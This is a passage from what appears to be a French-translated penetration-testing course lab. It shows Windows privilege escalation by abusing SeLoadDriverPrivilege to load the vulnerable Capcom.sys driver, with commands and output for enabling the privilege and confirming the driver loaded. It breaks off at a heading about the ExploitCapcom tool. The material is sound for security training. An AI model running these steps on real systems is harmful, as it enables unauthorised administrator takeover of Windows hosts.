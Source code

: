 L'étrange syntaxe `\??\` utilisée pour référencer ImagePath de notre pilote malveillant est un [NT Object Path](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-even/c1550f98-a1ce- 426a-9991-7509e7c3787c). L'API Win32 analysera et résoudra ce chemin pour localiser et charger correctement notre pilote malveillant.

#### Vérifier que le pilote n'est pas chargé

À l'aide de [DriverView.exe](http://www.nirsoft.net/utils/driverview.html) de Nirsoft, nous pouvons vérifier que le pilote Capcom.sys n'est pas chargé.

Vérifier que le pilote n'est pas chargé

```
PS C:\htb> .\DriverView.exe /stext drivers.txt
PS C:\htb> cat drivers.txt | Select-String -pattern Capcom

```

#### Vérifier que le privilège est activé

Exécutez le binaire `EnableSeLoadDriverPrivilege.exe` .

Vérifier que le privilège est activé

```
C:\htb> EnableSeLoadDriverPrivilege.exe

qui suis je:
INLANEFREIGHT0\printsvc

whoami /priv
SeMachineAccountPrivilege désactivé
SeLoadDriverPrivilège activé
SeShutdownPrivilege désactivé
SeChangeNotifyPrivilege activé par défaut
SeIncreaseWorkingSetPrivilege désactivé
NTSTATUS : 00000000, erreur Win :0

```

#### Vérifiez que le pilote Capcom est répertorié

Ensuite, vérifiez que le pilote Capcom est maintenant répertorié.

Vérifiez que le pilote Capcom est répertorié

```
PS C:\htb> .\DriverView.exe /stext drivers.txt
PS C:\htb> cat drivers.txt | Select-String -pattern Capcom

Nom du pilote : Capcom.sys
Nom du fichier : C:\Tools\Capcom.sys

```

#### Utilisez l'outil ExploitCapcom pour augmenter les privilèges
